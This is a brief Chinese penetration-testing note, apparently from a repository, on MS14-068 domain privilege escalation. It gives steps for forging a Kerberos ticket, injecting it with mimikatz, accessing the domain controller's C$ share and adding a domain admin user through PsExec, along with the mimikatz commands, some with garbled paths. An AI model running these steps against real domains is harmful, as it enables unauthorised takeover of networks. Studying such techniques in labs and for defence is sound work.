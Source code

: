 <img src="image/image-20230926170929931.png" alt="image-20230926170929931" style="zoom:80%;" />

<img src="image/image-20230926171005563.png" alt="image-20230926171005563" style="zoom:80%;" />

**利用思路**

1、首先利用ms14-068提权工具生成伪造的kerberos协议认证证书（黄金票据）
2、利用mimikatz.exe将证书写入，从而提升为域管理员 
3、测试是否能访问域控C盘目录，能访问则说明提升为域管理员
4、利用PsExec.exe获取域控shell，添加用户并将其加入域管理员组

得到黄金票据之后，通过mimikatz写入内存

```sh
#提取kirbi格式的文件
kerberos::clist "20221114105328_default_192.168.254.133_windows.kerberos_896806.bin" /export

kerberos::purge         //清空当前所有凭证
kerberos::list          //查看当前凭证
kerberos::ptc TGT_tidetest@tide.org.ccache   //将票据注入到内存中

mimikatz.exe "kerberos::ptc c:TGT_user1@Y5NEKO.COM.ccache" exit
net use k: \pentest.comc$
```

<img src="image/image-20230926203532609.png" alt="image-20230926203532609" style="zoom:80%;" />
